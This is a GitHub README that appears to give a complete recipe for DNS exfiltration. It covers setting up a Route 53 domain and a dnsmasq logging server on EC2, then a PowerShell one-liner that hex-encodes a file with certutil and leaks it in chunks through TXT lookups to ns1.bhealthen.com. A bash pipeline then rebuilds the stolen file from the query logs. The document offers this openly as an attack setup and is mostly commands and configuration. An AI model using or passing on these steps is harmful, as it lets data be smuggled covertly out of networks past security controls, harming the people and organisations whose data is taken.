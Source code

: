 # DNS_Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Logging will contain DNS requests with encoded information

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 4: Note down default SOA and NS records, then remove them
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns-1714.awsdns-22.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400  
**TTL:** 900  

**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns-1714.awsdns-22.co.uk.  
ns-1071.awsdns-05.org.  
ns-577.awsdns-08.net.  
ns-113.awsdns-14.com.  
**TTL:** 172800  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/f096c51f-a06d-4df4-b8a9-e1ad61579d8f)

## Step 5: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

**Record Name:** ns2.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

## Step 6: Modify existing NS Record to point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns1.bhealthen.com  
ns2.bhealthen.com  
**TTL:** 60  

## Step 7: Modify existing SOA record to point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns1.bhealthen.com. admin.bhealthen.com 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 8: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.bhealthen.com  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/79dc6562-8f73-41bd-89ac-9db7701c0946)


## Step 9: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/ff2684c5-136f-4ab2-8da7-88c17f0aa1a2)


## Step 10: Powershell command to hex encode a file, split, and do nslookup IMPROVEMENT POINT TO REMOVE encoded.hex

certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.bhealthen.com" ns1.bhealthen.com; sleep 5}  

## Step 11: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output
sudo cat output | xxd -p -r > SecretFile.txt | cat SecretFile.txt

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/68856338-b515-43e4-a873-d86df3ca9b27)

